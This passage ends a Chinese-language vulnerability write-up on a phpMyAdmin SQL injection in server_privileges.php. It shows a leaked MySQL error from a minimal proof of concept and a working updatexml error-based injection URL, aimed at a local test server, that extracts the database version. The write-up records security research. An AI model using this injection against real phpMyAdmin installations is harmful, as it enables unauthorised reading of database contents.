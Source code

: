 ```
{"success":false,"error":"<div class=\"error\"><h1>Error<\/h1><p><strong>Static analysis:<\/strong><\/p><p>1 errors were found during analysis.<\/p><p><ol><li>Ending quote \" was expected. (near \"\" at position 53)<\/li><\/ol><\/p><p><strong>SQL query:<\/strong>  <a href=\"#\" class=\"copyQueryBtn\" data-text=\"SELECT * FROM `mysql`.`user` WHERE `User` = 'test'&quot;';\">Copy<\/a>\n<a href=\".\/url.php?url=https%3A%2F%2Fdev.mysql.com%2Fdoc%2Frefman%2F5.6%2Fen%2Fselect.html\" target=\"mysql_doc\"><img src=\"themes\/dot.gif\" title=\"Documentation\" alt=\"Documentation\" class=\"icon ic_b_help\"><\/a><a href=\"server_sql.php?sql_query=SELECT+%2A+FROM+%60mysql%60.%60user%60+WHERE+%60User%60+%3D+%27test%27%22%27%3B&amp;show_query=1\"><span class=\"nowrap\"><img src=\"themes\/dot.gif\" title=\"Edit\" alt=\"Edit\" class=\"icon ic_b_edit\">&nbsp;Edit<\/span><\/a>    <\/p>\n<p>\nSELECT * FROM `mysql`.`user` WHERE `User` = 'test'&quot;';\n<\/p>\n<p>\n    <strong>MySQL said: <\/strong><a href=\".\/url.php?url=https%3A%2F%2Fdev.mysql.com%2Fdoc%2Frefman%2F5.6%2Fen%2Ferror-messages-server.html\" target=\"mysql_doc\"><img src=\"themes\/dot.gif\" title=\"Documentation\" alt=\"Documentation\" class=\"icon ic_b_help\"><\/a>\n<\/p>\n<code>#1064 - You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '&quot;'' at line 1<\/code><br><\/div>"} 
```

一个sql报错信息, 说明这个最短poc生效了

利用的话 反正都回显了 直接updatexml报错注入

```
http://127.0.0.1:8080/server_privileges.php?ajax_request=true&validate_username=true&username=test%27%20and%20(select%20updatexml(1,concat(0x7e,(SELECT%20@@version),0x7e),1))%20--%20 
```

在返回最下面可以看到`#1105 - XPATH syntax error: '~5.6.46~'`

### 后言

这个洞要求一个可以登录的账号才能注入. , 另外这个请求似乎也不需要`csrf-token`(不过似乎没什么用)

## 参考链接

> https://xz.aliyun.com/t/7092